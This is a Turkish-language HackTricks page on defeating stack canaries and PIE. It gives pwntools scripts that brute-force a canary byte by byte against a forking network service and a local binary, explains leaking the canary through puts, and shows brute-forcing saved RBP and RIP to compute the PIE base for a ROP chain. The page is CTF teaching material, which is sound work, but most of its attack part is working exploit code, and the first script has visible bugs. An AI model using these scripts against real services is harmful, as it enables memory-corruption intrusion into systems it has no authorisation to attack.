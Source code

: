 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman seviyesine kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>


**Bir canary ve PIE (Position Independent Executable) tarafından korunan bir ikiliyle karşı karşıyaysanız, bunları atlatmanın bir yolunu bulmanız gerekebilir.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`**'in, ikili bir canary tarafından korunduğunu bulamaması durumunda, bunun statik olarak derlenmiş olduğunu ve işlevi tanımlayamadığı anlamına gelebilir.\
Ancak, bir değerin bir işlev çağrısının başında yığında kaydedildiğini ve bu değerin çıkış yapmadan önce kontrol edildiğini fark ederseniz, bunu manuel olarak fark edebilirsiniz.
{% endhint %}

# Brute force Canary

Basit bir canary'yi atlatmanın en iyi yolu, ikilinin **her yeni bağlantı kurduğunuzda (ağ servisi) çocuk süreçler oluşturan bir program** olmasıdır, çünkü her bağlandığınızda **aynı canary kullanılacaktır**.

Bu durumda, canary'yi atlatmanın en iyi yolu, sadece **her karakteri brute-force** etmek ve tahmin edilen canary baytının doğru olup olmadığını anlamak için programın çöktüğünü veya düzenli akışına devam ettiğini kontrol etmektir. Bu örnekte, **8 baytlık bir canary'yi (x64)** brute-force eden ve doğru tahmin edilen bir bayt ile yanlış bir baytı sadece sunucu tarafından bir **yanıt** gönderilip gönderilmediğini kontrol ederek ayıran bir işlev bulunmaktadır (diğer durumlarda bir **try/except** kullanmak da mümkündür):

## Örnek 1

Bu örnek 64 bit için uygulanmıştır, ancak 32 bit için kolayca uygulanabilir.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Örnek 2

Bu 32 bit için uygulanmıştır, ancak kolayca 64 bit için değiştirilebilir.\
Ayrıca bu örnekte **programın önce girişin boyutunu belirten bir baytı beklediğini** ve ardından yükü dikkate alın.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Canary Yazdırma

Canary'yi atlatmanın başka bir yolu onu **yazdırmaktır**.\
Stack taşmasına karşı savunmasız bir programın, **stack taşmasının bir kısmına işaret eden** bir **puts** işlevini çalıştırabileceği bir durumu hayal edin. Saldırgan, canary'nin **ilk baytının bir null bayt** (`\x00`) olduğunu ve canary'nin geri kalanının **rastgele** baytlar olduğunu bilmektedir. Ardından, saldırgan, stack'i **canary'nin ilk baytına kadar üzerine yazan bir taşmayı oluşturabilir**.\
Daha sonra, saldırgan, yükün ortasında **puts işlevini çağırır** ve bu, canary'nin **tamamını yazdırır** (ilk null bayt hariç).\
Bu bilgiyle saldırgan, canary'yi bilerek (aynı program oturumu içinde) yeni bir saldırı oluşturabilir ve gönderebilir.

Açıkçası, bu taktik çok **sınırlıdır**, çünkü saldırganın **yükünün içeriğini yazdırabilmesi**, canary'yi **dışarı çıkarabilmesi** ve ardından yeni bir yük (aynı program oturumu içinde) oluşturabilmesi ve **gerçek tampon taşmasını gönderebilmesi** gerekmektedir.\
CTF örneği: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

PIE'yi atlatmak için bazı adresleri **sızdırmanız** gerekmektedir. Ve eğer ikili bir adres sızdırmıyorsa, en iyi seçenek **RBP ve RIP'yi stack'te kaydedilen yerlerde brute-force etmektir**.\
Örneğin, bir ikili hem bir **canary** hem de **PIE** kullanarak korunuyorsa, canary'yi brute-force etmeye başlayabilir, ardından **sonraki** 8 bayt (x64) kaydedilen **RBP** ve **sonraki** 8 bayt kaydedilen **RIP** olacaktır.

İkili dosyadan RBP ve RIP'yi brute-force etmek için, doğru tahmin edilen bir baytın programın bir şey çıktıladığını veya çökmediğini anlayabilirsiniz. Canary'yi brute-force etmek için sağlanan **aynı işlev**, RBP ve RIP'yi brute-force etmek için de kullanılabilir:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Temel adresi al

PIE'yi yenmek için ihtiyacınız olan son şey, sızdırılan adreslerden yararlı adresleri hesaplamaktır: **RBP** ve **RIP**.

**RBP**'den, **shellinizi yığında nereye yazdığınızı hesaplayabilirsiniz**. Bu, _"/bin/sh\x00"_ dizesini yığının içine nereye yazacağınızı bilmek için çok faydalı olabilir. Sızdırılan RBP ve shellcode arasındaki mesafeyi hesaplamak için, sızdırdıktan sonra bir **kesme noktası koyabilir ve shellcode'un nerede bulunduğunu kontrol edebilirsiniz**, ardından shellcode ile RBP arasındaki mesafeyi hesaplayabilirsiniz:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP** üzerinden, **PIE ikili dosyasının temel adresini** hesaplayabilirsiniz, bu da geçerli bir **ROP zinciri** oluşturmak için ihtiyacınız olan şeydir.\
Temel adresi hesaplamak için sadece `objdump -d vunbinary` komutunu kullanın ve aşağıdaki gibi en son adresleri inceleyin:

![](<../../.gitbook/assets/image (145).png>)

Bu örnekte, tüm kodu bulmak için sadece **1 Byte ve yarım** gerektiğini görebilirsiniz, bu durumda temel adres, sızdırılan RIP'in sonunda "000" ile biten olacaktır. Örneğin, eğer _0x562002970**ecf**_ sızdırdıysanız, temel adres _0x562002970**000**_ olacaktır.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek isterseniz** veya **HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARINA**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud** github depolarına **PR göndererek paylaşın**.

</details>
